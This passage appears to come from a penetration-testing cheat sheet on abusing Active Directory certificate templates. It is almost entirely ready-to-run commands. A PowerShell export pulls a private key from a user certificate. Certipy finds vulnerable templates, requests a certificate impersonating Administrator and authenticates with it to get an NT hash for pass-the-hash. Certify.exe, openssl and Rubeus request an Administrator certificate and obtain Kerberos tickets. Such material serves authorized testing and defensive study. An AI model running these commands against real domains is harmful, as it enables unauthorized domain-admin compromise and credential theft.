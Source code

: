### Extract the Private Key from a Certificate

```bash
$pw = ConvertTo-SecureString "password123" -AsPlainText -Force
$certificate = Get-ChildItem -Path cert:\CurrentUser\My\<thumbprint>
Export-PfxCertificate -Cert $certificate -FilePath user.pfx -Password $pw
```

<br /><br />

## Privilege Escalation with Vulnerable Template

### From Outside the Machine

We can use **[Certipy](https://github.com/ly4k/Certipy)** for finding vulnerable templates, requesting TGT, and authentication.
    
```bash
certipy find -vulnerable -stdout -u username@domain.local -p password -dc-ip <target-ip>
certipy req -u username@domain.local -p password -target <target-ip> -template <vuln-template-name> -ca EXAMPLE-CA -upn Administrator@domain.local
certipy auth -pfx administrator.pfx -dc-ip <target-ip>
# If you get the error like "Kerberos SessionError: KRB_AP_ERR_SKEW(Clock skew too great)", sync the time with AD server.
sudo rdate -n <target-ip>
```

Now we get the NT hash so we can login the target machine using this hash by **Pass-The-Hash**.

### From Inside the Machine

We can use [Certify.exe](https://github.com/GhostPack/Certify) for enumerating the templates and requesting certificate.  
It can be downloaded from [here](https://github.com/r3motecontrol/Ghostpack-CompiledBinaries).

```bash
# 1. Find
Certify.exe find /vulnerable

Certify.exe request /ca:dc.examle.com\example-CA /template:TemplateName /altname:Administrator
# Copy the cert.pem in the output then paste it to the cert.pem
vim cert.pem

# Convert PEM to PFX
openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx

# Request the TGT
Rubeus.exe asktgt /user:Administrator /certificate:cert.pfx /ptt
# if you gave the password for "cert.pfx", you need to specify the password
Rubeus.exe asktgt /user:Administrator /password:password123 /certificate:cert.pfx /ptt
# or output the file
Rubeus.exe asktgt /user:Administrator /certificate:<Thumbprint> /outfile:ticket.kirbi
```
